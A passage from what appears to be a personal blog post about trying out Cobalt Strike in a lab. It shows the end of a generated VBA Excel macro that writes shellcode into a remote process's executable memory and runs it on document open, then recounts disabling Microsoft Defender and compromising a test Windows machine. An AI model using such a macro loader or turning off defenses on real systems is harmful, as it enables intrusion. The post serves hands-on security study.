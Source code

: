 ```vb
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

[**VirusTotal Report**](https://www.virustotal.com/gui/file/b34401bb9834a33d7234a33fe7becf8002a557ed595b5664ba95cdfaa061f919/detection)

15 of 59 antivirus programs capable of processing macro-loaded Excel files reported malicious activity from the script above, including Microsoft Defender. Thus, I will likely have to turn off Microsoft Defender to run the macro. Avast's YARA Rule contributions specifically identified the maco as originating from Cobalt Strike.

I found the absence of my IP address within the code particularly interesting. I assume it can be reconstructed from the obfuscated code by using the values in `myArray` since a plain address would be easy to find and flag as malicious. I have censored my IP in screenshots thus far — if you can reconstruct it from that array, please [send me an email](mailto:contact@swlacy.com?subject=Playing%20With%20Cobalt%20Strike%20IP%20Address). I would love to know!

### Execution

Here comes the fun part: let's test the functionality of the macro. The software specifications of the Windows victim can be seen in the screenshot below. *Sidenote: I find it disturbing that links to TikTok, mobile games, and Roblox are included in the Start Menu even in Azure images. What a nightmare.*

![Screenshot of Cobalt Strike MS Office Macro Generator](/img/playing-with-cobalt-strike-5.webp)

Microsoft Defender immediately quarantined my Excel file upon saving it with the macro — annoying for my purposes, but a good thing nonetheless. However, many businesses do not remain vigilant when considering malware mitigation processes such as updating antivirus signatures, so the code generated by Cobalt Strike still poses a serious threat.

![Screenshot of Cobalt Strike MS Office Macro Generator](/img/playing-with-cobalt-strike-6.webp)

Disabling Defender allowed me to proceed, and... Exploitation was successful! From here, a variety of options were available, including the ability to upload files, attempt privilege escalation, and more. Fascinating stuff. Unfortunately, not all features worked as expected, but I am not sure if this is due to a misconfiguration on my part or whether some of the exploits Cobalt Strike attempted have been patched by Microsoft.

![Screenshot of Cobalt Strike MS Office Macro Generator](/img/playing-with-cobalt-strike-7.webp)

## PowerShell Script
